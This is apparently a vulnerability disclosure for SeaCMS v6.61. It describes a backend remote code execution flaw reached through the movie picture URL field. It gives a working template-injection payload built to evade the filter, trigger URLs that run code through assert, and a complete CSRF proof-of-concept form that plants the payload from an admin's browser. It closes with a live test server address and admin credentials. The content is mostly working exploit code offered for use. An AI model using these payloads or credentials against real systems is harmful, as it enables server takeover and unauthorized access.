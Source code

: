 # backend RCE in the latest version of SeaCMS(v6.61)

In SeaCMS's admin platform, just in the page of publishing movies,due to the low limitation of the code injected in the picture's url,we can execute random code to getshell.though there are some way's in the /include/main.class to limit the usage of the code,we can find ways to bypass it.
So How does this vul be triggerd? here are some Steps:  
* Firstly login to the admin panel, in this case the admin directory is adjusted to `/backend`.
![](http://p7lc13qga.bkt.clouddn.com/backend.PNG)
* Secondly add a movie and set it's pictrue address as `{if:1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);//}{end if}` 
![](http://p7lc13qga.bkt.clouddn.com/add.png)
* After adding it visit `/details/index.php?1.html&m=admin&a=assert&b=phpinfo();`you can find `phpinfo()` is executed.
here 1.html refers to the id of the video you have just added.In my case, the video's id is 2 so I executed as 2.html.
![](http://p7lc13qga.bkt.clouddn.com/vul.PNG)
* Or you can just visit `/search.php?searchtype=5&tid=0&a=assert&b=phpinfo();`or any other places that display the video's pic you have just added.


Also in the adding movie page it has no csrf protection so we can use CSRF to attacked it.  
csrf poc is here:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
  <!-- adjust action to your url -->
    <form action="http://127.0.0.1/seacms/backend/admin_video.php?action=save&acttype=add" method="POST">
      <input type="hidden" name="v&#95;commend" value="0" />
      <input type="hidden" name="v&#95;name" value="getshell" />
      <input type="hidden" name="v&#95;enname" value="ceshi" />
      <input type="hidden" name="v&#95;color" value="&#35;FF0000" />
      <input type="hidden" name="v&#95;type" value="5" />
      <input type="hidden" name="v&#95;state" value="5" />
      <input type="hidden" name="v&#95;pic" value="{if:1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);//}{end if}" />
      <input type="hidden" name="v&#95;spic" value="" />
      <input type="hidden" name="v&#95;gpic" value="" />
      <input type="hidden" name="v&#95;actor" value="" />
      <input type="hidden" name="v&#95;director" value="" />
      <input type="hidden" name="v&#95;commend" value="0" />
      <input type="hidden" name="v&#95;note" value="" />
      <input type="hidden" name="v&#95;tags" value="" />
      <input type="hidden" name="select3" value="" />
      <input type="hidden" name="v&#95;publishyear" value="" />
      <input type="hidden" name="select2" value="" />
      <input type="hidden" name="v&#95;lang" value="" />
      <input type="hidden" name="select1" value="" />
      <input type="hidden" name="v&#95;publisharea" value="" />
      <input type="hidden" name="select4" value="" />
      <input type="hidden" name="v&#95;ver" value="" />
      <input type="hidden" name="v&#95;hit" value="0" />
      <input type="hidden" name="v&#95;monthhit" value="0" />
      <input type="hidden" name="v&#95;weekhit" value="0" />
      <input type="hidden" name="v&#95;dayhit" value="0" />
      <input type="hidden" name="v&#95;len" value="" />
      <input type="hidden" name="v&#95;total" value="" />
      <input type="hidden" name="v&#95;nickname" value="" />
      <input type="hidden" name="v&#95;company" value="" />
      <input type="hidden" name="v&#95;tvs" value="" />
      <input type="hidden" name="v&#95;douban" value="" />
      <input type="hidden" name="v&#95;mtime" value="" />
      <input type="hidden" name="v&#95;imdb" value="" />
      <input type="hidden" name="v&#95;score" value="" />
      <input type="hidden" name="v&#95;scorenum" value="" />
      <input type="hidden" name="v&#95;longtxt" value="" />
      <input type="hidden" name="v&#95;money" value="0" />
      <input type="hidden" name="v&#95;psd" value="" />
      <input type="hidden" name="v&#95;playfrom&#91;1&#93;" value="" />
      <input type="hidden" name="v&#95;playurl&#91;1&#93;" value="" />
      <input type="hidden" name="m&#95;downfrom&#91;1&#93;" value="" />
      <input type="hidden" name="m&#95;downurl&#91;1&#93;" value="" />
      <input type="hidden" name="v&#95;content" value="" />
      <input type="hidden" name="Submit" value="�&#161;&#174;�&#174;&#154;�&#143;&#144;浜&#164;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

you can test this vul at `http://111.230.11.248:10089/backend/`,and the username and password is admin|admin.